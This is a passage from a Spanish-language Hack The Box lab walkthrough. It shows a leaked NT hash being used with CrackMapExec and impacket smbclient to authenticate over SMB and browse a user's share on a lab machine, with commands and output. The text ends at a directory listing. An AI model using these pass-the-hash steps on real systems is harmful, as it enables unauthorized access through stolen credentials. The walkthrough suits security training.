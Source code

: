 _Wow wow, slow down bro._

Tenemos ahora:

- El DC, hackthebox.htb
- Dos OU, group y passwd
- Dos UID, bob8791 (5001.5001) y alice1978 (5000.5000)
- Un NT Password from OU passwd, alice1978 / 0B186E661BBDBDCF6047784DE8B9FD8B

# SMB

Usemos estas credenciales ahora para enumerar el servicio de SMB:

```
(CrackMapExec-wTENtMaY) xbytemx@laptop:~/git/CrackMapExec$ crackmapexec smb -u alice1978 -H 0B186E661BBDBDCF6047784DE8B9FD8B -d ypuff 10.10.10.107 
SMB         10.10.10.107    445    YPUFFY           [*] Windows 6.1 (name:YPUFFY) (domain:ypuff) (signing:False) (SMBv1:True)
SMB         10.10.10.107    445    YPUFFY           [+] ypuff\alice1978 0B186E661BBDBDCF6047784DE8B9FD8B 

(CrackMapExec-wTENtMaY) xbytemx@laptop:~/git/CrackMapExec$ crackmapexec smb -u alice1978 -H 0B186E661BBDBDCF6047784DE8B9FD8B -d ypuff 10.10.10.107 --shares
SMB         10.10.10.107    445    YPUFFY           [*] Windows 6.1 (name:YPUFFY) (domain:ypuff) (signing:False) (SMBv1:True)
SMB         10.10.10.107    445    YPUFFY           [+] ypuff\alice1978 0B186E661BBDBDCF6047784DE8B9FD8B 
SMB         10.10.10.107    445    YPUFFY           [+] Enumerated shares
SMB         10.10.10.107    445    YPUFFY           Share           Permissions     Remark
SMB         10.10.10.107    445    YPUFFY           -----           -----------     ------
SMB         10.10.10.107    445    YPUFFY           alice           READ,WRITE      Alice's Windows Directory
SMB         10.10.10.107    445    YPUFFY           IPC$                            IPC Service (Samba Server)
```

Vientos, ahora tenemos el acceso al directorio de ALICE, analicemos su contenido:

```
(impacket-a2aNp99x) xbytemx@laptop:~/git/impacket/examples$ python smbclient.py -hashes 00000000000000000000000000000000:0B186E661BBDBD
CF6047784DE8B9FD8B YPUFF/alice1978@10.10.10.107                                                                                        
Impacket v0.9.18-dev - Copyright 2002-2018 Core Security Technologies                                                                  
                                                                                                                                       
Type help for list of commands                                                                                                         
# info                                                                                                                                 
Version Major: 6                                                                                                                       
Version Minor: 1                                                                                                                       
Server Name: YPUFFY                                                                                                                    
Server Comment: Samba Server                                                                                                           
Server UserPath: C:\                                                                                                                   
Simultaneous Users: 4294967295                                                                                                         
# use alice                                                                                                                            
# ls                                                                                                                                   
```